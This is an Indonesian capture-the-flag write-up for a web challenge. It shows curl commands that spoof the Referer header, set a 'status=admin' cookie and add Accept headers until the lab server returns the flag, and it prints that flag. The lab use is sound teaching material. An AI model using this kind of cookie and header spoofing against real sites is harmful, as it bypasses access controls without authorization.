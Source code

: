 Mimin setiap ingin kehalaman ini di tolak mulu :(, Bisa bantu mimin cari tau biar bisa kebuka ??

Link : http://web.ctf.rasyidmf.com/chal19/

```
Akses Website ini harus berasal dari https://www.hacker.com/ Yahh!
```

```
curl --referer https://www.hacker.com/ http://web.ctf.rasyidmf.com/chal19/ 
Akses Website ini harus memiliki kue status <b>admin</b> Yahh!
```

```
curl --referer https://www.hacker.com/ -b "status=admin" http://web.ctf.rasyidmf.com/chal19/ 
Akses Website ini hanya harus menerima <b>flag</b> Yahh!
```

```
curl --referer https://www.hacker.com/ -b "status=admin" -H "Accept: flag" -v http://web.ctf.rasyidmf.com/chal19/
Akses Website ini hanya menerima orang <b>indonesia</b> Yahh!
```

```
curl --referer https://www.hacker.com/ -b "status=admin" -H "Accept: flag" -H "Accept-Language: indonesia" -v http://web.ctf.rasyidmf.com/chal19/
* Trying 103.27.206.12:80...
* Connected to web.ctf.rasyidmf.com (103.27.206.12) port 80 (#0)
> GET /chal19/ HTTP/1.1
> Host: web.ctf.rasyidmf.com
> User-Agent: curl/7.72.0
> Referer: https://www.hacker.com/
> Cookie: status=admin
> Accept: flag
> Accept-Language: indonesia
Here is your flag : CTFR{n0w_y0u_l34rn1n9_4bout_h34d3r}
```

Flag
```
CTFR{n0w_y0u_l34rn1n9_4bout_h34d3r}
```